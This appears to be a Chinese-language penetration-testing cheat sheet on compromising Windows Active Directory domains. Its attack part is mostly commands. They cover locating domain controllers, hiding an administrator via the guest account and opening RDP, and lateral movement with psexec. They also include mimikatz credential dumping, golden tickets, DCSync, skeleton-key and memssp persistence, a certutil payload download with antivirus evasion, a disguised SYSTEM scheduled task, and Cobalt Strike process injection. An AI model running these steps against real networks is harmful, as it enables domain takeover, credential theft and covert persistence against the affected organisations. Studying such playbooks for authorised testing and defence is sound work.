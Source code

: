 # Intranet

---

## window域介绍

域计算机登录到域时，身份验证是采用kerberos协议在域控制器上进行，登录到此计算机时通过SAM来进行NTLM验证

一般域成员可以登录到域中所有工作站，不包括域控制器，管理员在域中可以设置用户登录可以登录到哪些计算机



## 流程

目的：拿到了域成员的控制权，通过域信息、登录IP次数出现最多的，定位域控、从其他的域计算机中抓取域管理员密码，然后拿下域控

1.找域控：

```
dsquery server                          #等等域控的主机名，如WIN-KMZ8MFWF5L8

net group "domain controllers" /domain  #得到WIN-KMZ8MFWF5L8$(去掉$)

net view                                #查看视图，备注servidor master ad 域控、dns域控可能性很大

ping 主机名                             #ping域控的主机名， 得到域控IP

net group "domain admins" /domain      #找域管理员

net user /domain    |net user 域用户 /domain    #找域所有成员
```

其他信息查看：

```
（net config workstation  #查询当前登录域  如pico.local

​    net accounts /domain   #查询域密码策略

​    net view /domain     #查看所有域

​    net view /domain:域名称 查看域内用户

​    net group "domain computers" /domain   #查看当前域的计算机列表

​    wmic qfe          #查询补丁信息

​    wmic os           #查看操作系统类型）
```

guest用户隐藏

```
net user  guest  /active:yes                      #激活guest用户

net localgroup  administrators  guest  /add       #将guest用户添加到

net user guest    密码                            #更改guest用户密码

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口
```

2.因为整个内网很多台计算机，每个计算机的本地管理员的帐号和密码都是一样，除了域控（域控也可以试试），所以我们得到了本地管理员帐号密码的话可以直接使用登录其他计算机，并找出域管理员登录过的域计算机，就算注销掉也可以从内存中抓取密码hash

```
psexec \\IP -u administrator -p 密码 cmd  #获取IP的超级管理员的cmd

tasklist /v |find "域管理员名"
```

or

```
tasklist /s IP /u administrator /p 密码 /v |find "域用户名" #远程查看进程
```

批量操作：

```
psexec -accepteula @ip.txt -u administrator -p 密码 -c 1.bat

（ip.txt是ip ，1.bat是tasklist的指令）
```



3.找到域管理员登录过的IP的计算机进行登录，使用mimikatz抓取内存的密码

```
mimikatz log "privilege::debug" "lsadump::lsa /patch"  #pth攻击

mimikatz（管理员权限下运行）

kerberos::golden /user:域用户名 /domain:域名 /sid:   /krbtgt:密码hash    /ticket:test.kirbi

kerberos::ptt test.kirbi

在在另一个cmd中

klist   #查看缓存的票据

dir \\WIN-KMZ8MFWF5L8.pico.local\c$     #域控主机名.域名，使用票据传递进行查看
```

or

```
mimikatz
：：获取帮助
Privilege：：debug        提升权限
Sekurlsa：：logonpasswords 抓取密码
查看本地用户密码
```

or

```
dcsuync功能利用它可以从目录复制服务（DRS）的NTDS.DIT文件中检索密码哈希值。该项技术省去了直接使用域控制器进行身份验证的过程，因为它可以通过域管理员的权限从域的任何系统执行

lsadump::dcsync /domain:pentestlab.local /all /csv
```





4.如果dump不出域控密码，使用远程RPC请求，允许执行远程代码

```
魔波利用ms06-040  缓冲区溢出  针对netapi组件  

如果是域控是windows xp/2000/2003/2008等 可以是用ms08-067  针对netapi组件

wannacry利用ms17-010永恒之蓝攻击445传播病毒
```

可以在github上搜ms的扫描器

------------------------------------------------

## 内网穿透

[frp](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/Frp.html)



## dump超管密码

内网一般是windows系统

[mimakatz](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/mimakatz.html)



域信息收集

```
systeminfo   #看计算机信息、域、补丁
net time /domain  # 一般域控也做时间服务器，如果有代表在域里
net config workstation #工作域为域名，如果为WORKGROUP表示未域环境，登陆域表示当前用户是域用户（域名）还是本地用户（本地是计算机名）
net group “domain admins” /domain #定位域管理员名
域管：域名/域管理员名

net group “domain controllers” /domain  #在与里面能看到域控名$
ping 域控名  #能定位IP

net use \\域控名
net view \\域控名  # 查看域控共享的设备
dir \\域控名\xxxx  # 查看域控共享的文件
```



进行下载(下载并重名名成nice.exe，&是为了绕过杀软)

```
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
加上delete就不会产生缓存文件
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe delete
查看缓存文件：certutil -urlcache *
删除缓存文件：certutil -urlcache * delete
```

定时任务使windows服务器上线,apt持久化

```
schtasks /create /RL HIGHEST /F /tn "Windows Server Update" /tr "c:\windows\Temp\xxx.exe" /sc DAILY /mo 1 /ST 09:00 /RU SYSTEM
```

使用cs查看进程,如果有域管使用的进程,,在cs中注入进程让域管上线

```
beacon> inject 进程号 x64 http-ip
```

域管状态下与域控简历IPC共享

```
net use \\IP # 简历IPC连接
dir \\IP\c$  # 列出c盘共享
```

cs中能使用端口扫描功能进行内网扫描

```
portscan 192.168.2.0-192.168.2.254 1-1024,3389 arp 1024
```

ssp记录登陆当前机器的所以账号密码

```
beacon> mimikatz privilege::debug
beacon> mimikatz misc::memssp
beacon> shell type C:\Windows\System32\mimilsa.log
有人登陆成功:
beacon> shell type C:\Windows\System32\mimilsa.log # 查看文件内容
```

Skeleton Key - 万能密码

```
beacon> mimikatz privilege::debug
beacon> mimikatz misc::skeleton
可以通过:  账号:域名\administrator 密码:mimikatz 连接IPC
beacon> shell net use \\xxxxx-PDM\c$ /user:"a-xxxxx\administrator" "mimikatz"
beacon> shell dir \\xxxxx-PDM\c$
```

nbtscan内网存活扫描,并显示IP，主机名(加入域会域名+主机名)，用户名称和MAC地址

- https://github.com/lifenjoiner/nbtscan/releases/tag/nbtscan-v1.5.2-2394b4

```
nbtscan -r x.x.x.x/24
```



来源:https://xz.aliyun.com/t/9816

